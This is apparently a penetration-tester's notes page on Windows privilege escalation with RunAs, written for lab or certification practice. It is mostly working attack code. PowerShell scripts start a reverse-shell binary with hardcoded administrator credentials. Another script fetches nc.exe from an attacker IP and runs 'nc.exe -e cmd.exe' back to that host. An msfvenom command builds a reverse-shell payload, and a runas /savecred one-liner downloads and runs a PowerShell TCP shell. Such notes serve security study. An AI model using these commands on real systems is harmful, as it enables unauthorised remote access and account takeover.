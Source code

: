 # Runas

Windows includes a useful command called RunAs that enables a user to run a program as a different user if credentials are known.

## Example <a href="#example" id="example"></a>

***

So we have a program we want to run, we have a shell as a low priv user, and we have the username and password of an admin user from a different machine, but because we have a non-interactive shell there is no option to input the password. What can we do? Let me set up a situation and provide the solution for the problem:

&#x20;

### | create file <a href="#create-file" id="create-file"></a>

Create a file called runme.ps1 (powershell file), and add the contents below to the file:

```
$secpasswd = ConvertTo-SecureString "Welcome1!" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$computer = "workstation7"
[System.Diagnostics.Process]::Start("C:\Users\alfred\Desktop\rev.exe","", $mycreds.Username, $mycreds.Password, $computer)
```

&#x20;

### | alternative to runme.ps1 <a href="#alternative-to-runmeps1" id="alternative-to-runmeps1"></a>

```
$password = convertto-securestring -AsPlainText -Force -String
"36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget
http://10.10.14.23/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 4444} -credential $credential;
```

&#x20;

### | create reverse shell <a href="#create-reverse-shell" id="create-reverse-shell"></a>

```
msfvenom -p windows/shell_reverse_tcp LPORT=666 LHOST=10.10.14.6 -f exe -o rev.exe
```

&#x20;

### | execute <a href="#execute" id="execute"></a>

```
C:\> powershell -ExecutionPolicy Bypass -File runme.ps1
```

## RUNAS With saved keys <a href="#runas-with-saved-keys" id="runas-with-saved-keys"></a>

***

if you see keys with cmdkey /list , you can get a shell with those saved keys

```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object net.webclient).downloadstring('http://10.10.14.6/Invoke-PowerShellTcp.ps1')"
```



#### Reference:

[https://notchxor.github.io/oscp-notes/4-win-privesc/14-runas/](https://notchxor.github.io/oscp-notes/4-win-privesc/14-runas/)
